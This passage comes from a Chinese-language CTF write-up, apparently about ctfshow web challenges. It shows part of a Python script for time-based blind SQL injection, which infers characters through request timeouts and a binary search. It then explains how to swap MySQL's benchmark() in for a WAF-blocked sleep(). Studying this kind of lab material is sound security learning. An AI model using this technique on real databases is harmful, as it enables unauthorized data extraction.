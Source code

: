 ```python
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```



#### web217

![image-20250214145642775](../assets/image-20250214145642775.png)

这题waf了sleep

可以改用benchmark

> - 在 MySQL 中，`benchmark`函数用于测试表达式执行的性能。它的语法是`benchmark(count,expr)`，其中`count`是要执行`expr`的次数，`expr`是要测试的表达式。
> - 例如，`benchmark(10000000,sha(1))`表示将`sha(1)`这个表达式执行 10000000 次。`sha(1)`是计算字符串`'1'`的 SHA - 1 哈希值。
